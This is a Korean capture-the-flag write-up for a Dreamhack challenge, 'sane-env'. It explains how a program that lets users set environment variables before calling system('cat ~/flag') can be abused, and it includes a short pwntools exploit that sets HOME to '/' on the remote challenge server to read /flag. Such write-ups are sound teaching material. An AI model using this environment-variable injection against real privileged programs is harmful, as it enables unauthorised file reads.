



# Structure

switch case 1번인 `1. set environment variable` 코드 구조는 name, value를 입력받아 setenv() 함수로 환경 변수를 등록하는 과정이다. (10은 줄바꿈으로, 마지막 글자가 개행이면 null로 바꿔주는 코드이다.)

2번의 `2. unset environment variable`코드 구조는 입력받은 name인 환경 변수를 삭제하는 함수이다.

3번의 `3. run hard-coded system()`는 confstr() 함수(시스템의 고유 설정 값을 조회하는 함수로, (조회할 변수, 목적지 버퍼, 사이즈)의 인자를 받는다.)가 있으며 2,3 번째 인자가 비어 있으면 첫 번째 인자가 가리키는 설정 값의 문자열 길이를 반환하며 _CS_PATH의 문자열 길이인 13에 null을 포함한 14를 반환하게 된다.
크기가 14인 malloc을 생성하고, confstr() 함수로 _CS_PATH를 불러와 malloc에 저장하고,  그 값을 PATH에 setenv() 함수로 설정하여 system() 함수로 “cat \~/flag” 명령어를 실행시킨다.
# Vuln
setenv() 함수의 3번째 인자 값은 overwrite 여부로, 1은 이미 데이터가 있으면 덮어 씌우며, 0은 기존 데이터가 있으면 유지한다. 옵션 1의 setenv() 함수로 원하는 환경 변수의 기존 값이 존재해도 수정할 수 있는 권한을 가진다.
system() 함수가 cat \~/flag 명령어를 실행하며 2개의 환경 변수가 쓰이는데, cat은 system() 함수가 절대 경로로 쓰이지 않은 cat 명령어를 찾기 위해 저장되어 있는 경로인 PATH 환경 변수를 활용하여 파일을 찾아 수행하고, \~/flag에서는 \~가 HOME 환경 변수를 사용한다.
PATH는 system() 함수 실행 전마다 confstr() 함수로 프로세스 밖의 시스템 설정 값을 가져와 초기화 하기에 PATH를 수정하고 실행해도 기본 값으로 유지된다.
# Exploit
```assembly
from pwn import *

# p = process('./sane-env')
p = remote('host3.dreamhack.games', 13262)

p.sendlineafter('4. exit', '1')
p.sendlineafter('Environment variable name: ', 'HOME')
p.sendlineafter('Environment variable value:', '/')
p.sendlineafter('4. exit', '3')

p.interactive()
```
하지만 HOME으로 /flag 위치에 있는 파일을 읽기 위해 HOME = / 로 수정한다면, cat //flag로 연속된 슬래시는 하나로 취급되기에 cat /flag로 되어 플래그를 읽을 수 있도록 코드를 작성해 익스플로잇을 하면

플래그를 얻을 수 있다.
### Notes
setenv() 함수는 기존에 존재하는 환경 변수도 덮어쓸 수 있고, PATH를 초기화 하지 않으면 원하는 파일 경로로 설정하여 기존 명령어로 원하는 동작을 일으킬 수 있다.
유닉스 파일 시스템에서는 연속된 슬래시는 하나로 취급된다.
